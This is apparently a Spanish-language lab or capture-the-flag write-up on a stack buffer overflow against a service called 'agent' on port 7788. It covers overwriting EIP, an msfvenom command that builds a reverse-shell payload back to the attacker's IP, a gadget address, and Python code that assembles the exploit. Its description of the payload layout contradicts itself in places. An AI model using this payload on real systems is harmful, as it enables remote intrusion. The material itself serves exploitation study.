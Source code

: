 ### ¿Qué es EIP?

- Es el **registro de instrucciones** del procesador
- Cuando lo sobrescribes, puedes **decidir a dónde va el programa**
- Normalmente salta a una dirección de código → hacemos que salte a tu shellcode 

### ¿Qué necesitas para hacer el ataque?

#### Saber **cuántos bytes** necesitas para llegar a EIP  
(→ lo hacemos con `pattern_create.rb`)

Ejemplo: `168` bytes

#### Un **shellcode**

El shellcode es un bloque de código que hace algo útil (por ejemplo: reverse shell, meterpreter, etc.). Lo creamos con:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=tu_ip LPORT=tu_puerto -f python -b "\x00\x0a\x0d"
```

#### Una dirección válida para el salto  
(→ una instrucción como `jmp esp` dentro del binario o alguna librería)

Ejemplo: `0x08048563` ( lo encontramos con `ROPgadget`)

#### Un **payload construido así**:

```
[relleno hasta EIP][EIP][shellcode]
```

En el código python:

```python
buf = shellcode
padding = b"A" * (offset - len(buf) - len(nops))
payload = padding + nops + buf + eip
```

El NOPs `b"\x90" * (168 - len(buf))` son para **rellenar el espacio** que falta para llegar hasta la dirección EIP. Justo después reemplazamos el contenido con la llamada a la función `call eax` e inmediatamente después inyectamos el shellcode.

`b"\x63\x85\x04\x08"` es la dirección que va a reemplazar EIP (en formato little-endian).

`0x08048563` es una dirección dentro del binario

En este caso, es una instrucción call eax, es decir: salta a al shellcode

Se pone después de los 168 bytes de relleno porque es el contenido que irá a parar al EIP

### ¿Qué hace el exploit paso a paso?

1. Se conecta al servicio `agent` por el puerto 7788
2. Envía el Agent ID correcto (`48093572`)
3. Selecciona la opción 3 del menú
4. En lugar de enviar un texto normal, **envía el payload malicioso**
5. El programa procesa el input, se desborda y **EIP se sobrescribe**
6. Cuando intenta retornar, **salta a la dirección que pusiste en EIP**
7. Esa dirección apunta al **shellcode** (que colocamos justo antes)
8. El shellcode se ejecuta y nos da **una shell reversa**
